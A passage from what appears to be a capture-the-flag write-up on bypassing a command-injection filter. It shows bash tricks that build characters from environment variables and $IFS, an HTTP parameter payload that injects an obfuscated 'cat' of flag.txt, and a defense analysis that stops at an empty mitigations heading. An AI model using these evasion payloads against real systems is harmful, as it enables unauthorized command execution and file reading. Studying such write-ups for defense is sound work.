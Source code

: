 ### Method 3: Environment Variable Techniques

**Using Multiple Environment Variables:**
```bash
# Alternative character sources
${HOME:0:1}    # Extract '/' from HOME path
${PWD:0:1}     # Extract first character of current directory
${USER:0:1}    # Extract first character of username
```

**Payload Example:**
```http
to=tmp$IFS%26c"a"t$IFS${HOME:0:1}flag.txt
```

### Method 4: Advanced Obfuscation Combinations

**Multi-layer Obfuscation:**
```bash
# Combine multiple techniques
${IFS}&$(tr$IFS"[A-Z]"$IFS"[a-z]"<<<"C"A"T")$IFS${PATH:0:1}flag.txt
```

### Method 5: Windows Alternative (If Applicable)

**Windows Environment Variables:**
```cmd
# If target were Windows
%TEMP:~-3,-2%    # Character extraction from TEMP
%HOMEPATH:~0,1%  # Extract backslash
```

---

## Defense Analysis

### Identified Security Weaknesses

1. **Input Validation Failure**
   - No sanitization of user input
   - Direct parameter interpolation

2. **Filter Implementation Flaws**
   - Incomplete blacklist approach
   - URL context assumptions (& whitelisting)

3. **Error Information Disclosure**
   - System error messages exposed
   - Command output visible to users

4. **Command Execution Design**
   - Direct shell command execution
   - No command isolation

### Recommended Mitigations
